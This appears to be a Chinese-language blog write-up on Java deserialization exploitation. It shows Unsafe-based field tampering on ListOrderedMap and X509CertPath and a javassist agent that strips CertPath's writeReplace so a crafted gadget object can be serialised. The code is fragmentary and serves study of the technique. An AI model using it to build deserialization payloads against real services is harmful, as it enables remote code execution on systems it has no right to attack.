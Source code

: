 ```
sun.misc.Unsafe这个类位于rt.jar包，Unsafe类提供了硬件级别的原子操作，类中的方法都是native方法，它们使用JNI的方式访问本地C++实现库。由此提供了一些绕开JVM的更底层功能，可以提高程序效率
```

这个类提供了很多高效的操作，目前在反序列化中我们可以先了解这样一串代码

```
Field field = Unsafe.class.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get((Object) null);
unsafe.putObject(decorated, unsafe.objectFieldOffset(ListOrderedMap.class.getDeclaredField("insertOrder")), decorate);
X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);
```

需要通过反射去创建Unsafe实例，在创建Unsafe实例后就可以调用其提供的native方法，可以通过allocateInstance创建一个类的实例，putObject方法相当于反射修改某个实例中某个字段的值

当然这个类的功能远不止如此，但是在反序列化中，我们可以用这个简单地来代替反射，就不用专门再去写反射修改的函数了，相当于已经做了一层包装

# 复现

先写一个agent来hook掉writeReplace方法，相关的transform代码如下

```
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtMethod;  

import java.lang.instrument.ClassFileTransformer;  
import java.lang.instrument.IllegalClassFormatException;  
import java.security.ProtectionDomain;  
import java.security.cert.CertPath;  

public class RemoveReplaceTransformer implements ClassFileTransformer {  
    @Override  
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {  
        if(className.equals("java/security/cert/CertPath")){  
            try {  
                System.out.println(true);  
                ClassPool pool = ClassPool.getDefault();  
                CtClass ctClass = pool.get("java.security.cert.CertPath");  
                CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");  
                ctClass.removeMethod(writeReplace);  
                ctClass.detach();  
                return ctClass.toBytecode();  
            }catch (Exception e){  
                System.out.println(e);;  
            }  

        }  

        return  classfileBuffer;  
    }  

}
```

